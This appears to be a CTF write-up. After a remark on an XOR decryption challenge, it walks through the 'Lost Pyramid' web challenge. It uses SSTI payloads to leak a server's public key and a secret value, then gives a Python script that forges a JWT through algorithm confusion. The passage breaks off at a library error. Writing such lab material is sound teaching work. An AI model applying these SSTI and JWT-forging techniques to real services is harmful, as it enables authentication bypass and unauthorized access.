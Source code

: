 
The code defines a function `xor_decrypt` that decrypts a list of numbers using a key by applying an XOR operation. It converts each character of the key to its ASCII value and uses it to decrypt the corresponding number in the list, ensuring the result falls within the printable ASCII range. Finally, the decrypted values are combined into a string and printed as the result.

And we get our flag as `csawctf{great_work_you_cracked_the_obscured_secret_flag}`.

# Lost Pyramid (Web)
We were given the source code, and upon reviewing it, we found that we needed to access the `/kings_lair` endpoint to obtain the flag. To reach that endpoint, we required a valid JWT token. The source code also revealed that the payload of the JWT must include a valid `KINGSDAY` in the `CURRENT_DATE` setup. Below is the typical JWT for a regular user:

```
{
  "ROLE": "commoner",
  "CURRENT_DATE": "07_09_2024_AD",
  "exp": 96333722311
}
```
The role must be set to "royalty." 

Additionally, the source code indicates that a private key is used to generate the JWT. We can exploit a [algorithm confusion attack to forge a JWT token](https://portswigger.net/web-security/jwt/algorithm-confusion), but we first need to identify the public key. To discover the `KINGSDAY` and `PUBLICKEY`, I found Server-Side Template Injection (SSTI) vulnerability at the `/scarab_room` endpoint using payloads `{{ PUBLICKEY }}` and `{{ KINGSDAY }}`. This revealed the following:

- Public Key: `ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPIeM72Nlr8Hh6D1GarhZ/DCPRCR1sOXLWVTrUZP9aw2`
- KINGSDAY: `03_07_1341_BC`

So with the information I have, I wrote a python code to forge a JWT token for me:

```python
import jwt
import datetime

public_key = """ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPIeM72Nlr8Hh6D1GarhZ/DCPRCR1sOXLWVTrUZP9aw2"""

kingsday = "03_07_1341_BC"

payload = {
    "ROLE": "royalty",
    "CURRENT_DATE": kingsday,
    "exp": datetime.datetime.now(datetime.timezone.utc) + datetime.timedelta(days=(365 * 3000))
}

token = jwt.encode(payload, public_key, algorithm="HS256")
print("jwt token:", token)
```

Which, upon running, gives the following error:

```
jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.
```
